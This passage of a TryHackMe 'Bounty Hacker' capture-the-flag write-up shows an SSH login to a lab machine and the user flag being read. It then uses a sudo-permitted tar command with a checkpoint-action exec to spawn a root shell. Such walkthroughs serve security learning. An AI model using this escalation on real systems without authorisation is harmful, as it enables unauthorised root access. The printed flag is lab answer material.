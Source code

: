 ```bash
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:12: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.67.0' (ED25519) to the list of known hosts.
lin@10.10.67.0's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ 
```
## Let find User.txt
```bash
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
lin@bountyhacker:~/Desktop$ 
```
### That was easy 
## 5. Privilege Escalation
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:~/Desktop$
```
### OK Let Find it on gtfobins

```bash
https://gtfobins.github.io/gtfobins/tar/
```
![Screenshot from 2024-04-13 16-25-27](https://github.com/Esther7171/Bounty-Hacker-TryHackMe-/assets/122229257/0ce374dd-2084-43b0-a956-40680608c57f)

### Ok Let copy all 
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
#
```
## We Got root
```bash
```